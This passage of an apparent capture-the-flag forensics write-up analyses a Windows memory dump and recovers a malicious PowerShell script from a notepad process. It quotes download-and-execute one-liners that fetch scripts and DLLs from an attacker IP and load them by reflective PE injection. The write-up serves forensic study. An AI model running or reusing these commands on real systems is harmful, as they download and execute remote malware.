```
2720    DumpIt.exe      "C:\Users\emu\Desktop\DumpIt.exe" 
3996    conhost.exe     \??\C:\Windows\system32\conhost.exe "1830888485-802060661-11601734412110507355-1376939537-182472773412174042161677647333
```

Hence, I dumped the notepad process instead. Checking for malicious commands, we can find parts of the malicious powershell script in notepad that seem to download other malicios files.

```
└─$ strings pid.4044.dmp | grep monke    
<li><a href="monkey.dll">monkey.dll</a></li>
<li><a href="monkey.doc.ps1">monkey.doc.ps1</a></li>
<li><a href="monkey.exe">monkey.exe</a></li>
iex (New-Object net.webclient).Downloadstring('http://192.168.57.166/documents/reflect.exe'); $wc = New-Object System.Net.WebClient; $bytes = $wc.DownloadData('http://192.168.57.166/documents/monkey.dll'); Invoke-ReflectivePEInjection -PEBytes $bytes
<li><a href="monkey.dll">monkey.dll</a></li>
<li><a href="monkey.doc.ps1">monkey.doc.ps1</a></li>
<li><a href="monkey.exe">monkey.exe</a></li>
monkey.doc.lnk
monkey.doc.lnk
monkey.docm.lnk
monkey.docm.lnk
<li><a href="monkey.exe">monkey.exe</a></li>
```

Filtering for the iex cmdlet, the full command responsible for downloading the other malicious files can be identified. The malicious files `emu.dll` and `kiwi.dll` were downloaded and executed with `Invoke-ReflectivePEInjection`. This suggests that the whole attack scenario was related to [reflective DLL injection](https://www.hackthebox.com/blog/reflection-ca-ctf-2022-forensics-writeup).

```
└─$ strings pid.4044.dmp | grep "iex (New-Object net.webclient).Downloadstring" -A 5 -B 5
        else
        {
            $PELoadedInfo = Invoke-MemoryLoadLibrary -PEBytes $PEBytes -ExeArgs $ExeArgs -RemoteProcHandle $RemoteProcHandle -ForceASLR $ForceASLR
        }
NDsh
Start-Job -ScriptBlock {iex (New-Object net.webclient).Downloadstring('http://192.168.57.166/reflective/reflect.ps1'); Invoke-ReflectivePEInjection -PEUrl http://192.168.57.166/documents/emu.dll};Start-Job -ScriptBlock {iex (New-Object net.webclient).Downloadstring('http://192.168.57.166/reflective/reflect.ps1'); Invoke-ReflectivePEInjection -PEUrl http://192.168.57.166/documents/kiwi.dll}
Msidle.dll
NDsh
     if ($PELoadedInfo -eq [IntPtr]::Zero)
        {
            Throw "Unable to load PE, handle returned is NULL"

--- SNIP ---
```

To identify the malicious executable responsible for all this, we can use the consoles plugin from vol2.
